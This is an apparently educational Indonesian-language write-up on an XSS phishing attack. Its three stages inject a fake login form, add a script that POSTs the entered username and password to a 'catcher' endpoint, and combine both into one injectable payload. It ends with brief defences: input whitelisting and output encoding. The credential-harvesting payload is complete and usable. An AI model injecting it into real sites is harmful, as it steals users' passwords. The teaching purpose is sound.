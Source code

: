 # Solusi : XSS Phising #

## Tahap 1 : Menampilkan Form Palsu ##
```html
<br>Username : <input id=username><br>Password : <input type=password id=password><br><button type=button onclick="alert('user:'+document.getElementById('username').value + 'pass : '+document.getElementById('password').value);">Login</button>
```

## Tahap 2 : Script untuk submit form ##

```js
var http = new XMLHttpRequest();
var params = "PROPERTY=yes&username="+document.getElementById('username').value + "&password="+document.getElementById('password').value;
http.open("POST", "catcher", true);
http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
http.send(params);
```

## Tahap 3 : Gabungkan ##

```html
<script>function kirim(){var http = new XMLHttpRequest();var params = "PROPERTY=yes&username="+document.getElementById("username").value + "&password="+document.getElementById("password").value;http.open("POST", "catcher", true);http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");http.send(params);}</script>
<br>Username : <input id=username><br>Password : <input type=password id=password><br><button type='button' onclick='kirim()'>Login</button>
```

## Solusi ##

* Validasi Input dengan Whitelisting : membuat daftar karakter yang diijinkan untuk diinput ke dalam form
* Output Encoding : mengganti karakter khusus dalam HTML (misalnya `<` dan `>`) menjadi representasi visualnya (misalnya `&lt;` dan `&gt;`)